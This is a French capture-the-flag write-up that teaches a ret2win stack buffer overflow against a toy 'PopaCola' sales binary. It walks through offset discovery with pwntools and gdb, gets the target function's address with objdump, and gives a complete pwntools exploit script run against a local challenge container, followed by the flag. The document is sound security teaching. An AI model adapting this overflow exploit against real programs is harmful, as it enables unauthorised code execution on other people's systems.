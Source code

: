 # Ret2popacola Write-Up.

L'objectif de ce challenge est la découverte des ret2win en pwn. C'est une méthode d'exploitation assez classique qui permet de bien comprendre le flow d'exécution d'un binaire, mais surtout comment on peut le contrôler :D

## Analyse du challenge
Commençons d'abord par analyser les sources du binaire et son comportement. 

Le programme est un outil de consultation du nombre de ventes de PopaCola de la journée.
Quand on l'exécute, on nous demande un login. Si le login n'est pas le bon, le programme nous refuse l'accès et se termine.
En lisant le code, on voit que le login demandé est "popacola".

En rentrant ce login, le programme nous affiche le nombre de ventes (simulés avec deux random). Rien de bien fou jusque-là.

Cependant, on remarque l'existence d'une fonction "SuperSecretAdminAccess", qui vient ouvrir le flag. Intéressant...
![](assets/SuperSecretAdminAccess.png)

Enfin, on voit que le login est stocké dans le buffer `name` qui a une capacité de 64 caractères. La fonction `fgets` elle vient récupérer l'entrée utilisateur en la considérant d'une taille de 0x100 (256). Que se passe-t-il dans le buffer s'il contient plus de 64 caractères ?

## Un buffer overflow, kesako ?  
En rentrant plus de 64 caractères, nous avons fait un buffer overflow. Nous avons dépassé l'espace mémoire réservé pour le nom de l'utilisateur. De la donnée va être réécrite sur la pile (stack), qui est la partie qui garde en mémoire de nombreuses informations utiles pour notre programme. Dans ces informations, nous pouvons retrouver l'adresse de retour de la fonction après la fin de son exécution ou les adresses de la stack sauvegardée de la fonction main.

C'est là que la fonction SuperSecretAdminAccess nous intéresse. Cette fonction n'est appelée nulle part, comment faire pour y accéder et obtenir le flag ?

Le but du jeu va être de réécrire la valeur du registre `rip` qui est dans la stack et récupérée lors du `ret`. Ainsi, à la fin de l'exécution de la fonction, sellTracker ne retournera pas sur main mais sur la fonction SuperSecretAdminAccess, ce qui nous donne le flag.

## Solution
Un checksec sur le binaire permet de voir plusieurs éléments :
- NX activé, ce qui nous empêche de faire un shellcode
- PIE est désactivé, les fonctions du binaire ont la même adresse à chaque exécution
- Pas de canary, on peut donc blinder la stack sans soucis

Étapes à suivre :
1. Trouver l'offset entre le début du buffer name et le rip stocké.
2. Recuperer l'adresse de la fonction SuperSecretAdminAccess, qui sera toujours la même (PIE désactivée)
3. Écrire notre payload
4. Envoyer notre payload et récupérer le flag !

### 1. Trouver l'offset entre le début du buffer name et le rip stocké
Pour trouver l'offset de réécriture de `rip`, il est courant d'utiliser un cyclic avec pwntools, qui génère une [suite de Bruijn](https://fr.wikipedia.org/wiki/Suite_de_de_Bruijn).

Avec pwntools d'installé et depuis un terminal interactif Python :
```python
>>> from pwn import *
>>> cyclic(100)
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

On peut ensuite lancer le binaire en local avec `gdb` afin d'envoyer la séquence générée au préalable.
Ici j'utilise [pwndbg](https://github.com/pwndbg/pwndbg), une surcouche de `gdb` qui permet d'avoir une interface un peu plus sympa.
![](assets/pwndbg_run.png)

Le programme crash. On obtient un SIGSEGV :D
![](assets/sigsegv.png)

1. Le SIGSEGV indique le fameux Segmentation Fault. Ici, le programme essaie de retourner sur une adresse invalide comme `rip` a été réécrit.
2. Pwndbg reconnaît la chaîne de caractères 'waaaxaaayaaa' pour le registre `rsp`. On reconnaît les caractères qui font partie du cyclic que l'on a rentré. C'est ce qu'on utilise dans `cyclic_find` pour trouver l'offset.

Dans le même terminal Python, on exécute donc :
```python
>>> cyclic_find('waaaxaaayaaa')
88
```
On a trouvé notre offset ! Il est de 88 caractères.

### 2. Récupérer l'adresse de la fonction SuperSecretAdminAccess
Comme on l'a vu dans le checksec, le PIE sur le binaire est désactivé. Les adresses des fonctions du binaire ne changeront donc pas entre deux exécutions.

Comme le binaire est `not stripped`, on peut récupérer facilement les symboles avec `objdump`.
```shell
$ objdump -t ret2popacola | grep "SuperSecretAdminAccess"
00000000004011b6 g     F .text	00000000000000b8              SuperSecretAdminAccess
```

L'adresse est **0x00000000004011b6**.

## Écrire notre payload
Ce script de solve utilise pwntools. Il se connecte en remote sur le Docker fourni :

```python
from pwn import *

def solve():
    # Connexion en remote sur notre hôte local sur le port 4444
    r = remote("localhost","4444") 

    # On met de la donnée inutile pour combler l'espace entre le début de notre buffer et la réécriture de rip 
    payload = b"A" * 88        

    # On utilise la fonction p64 afin de "packed" l'adresse, c’est-à-dire changer l'endianness de l'adresse (on le passe en little endian)
    payload += p64(0x00000000004011b6)

    # Il ne nous reste plus qu'à envoyer notre payload au bon moment, puis de passer en interactive.
    r.sendlineafter(b"Veuillez rentrer votre login pour acceder aux ventes du jour.", payload)
    r.interactive()

if __name__ == "__main__":
    solve()
```
On lance le programme et on obtient l'accès à SuperSecretAdminAccess et au flag :D
![](assets/ca_flag.png)

# Flag
Le flag est `24HIUT{L3ts_K33p_Pwn1Ng_P0paC01a}`.
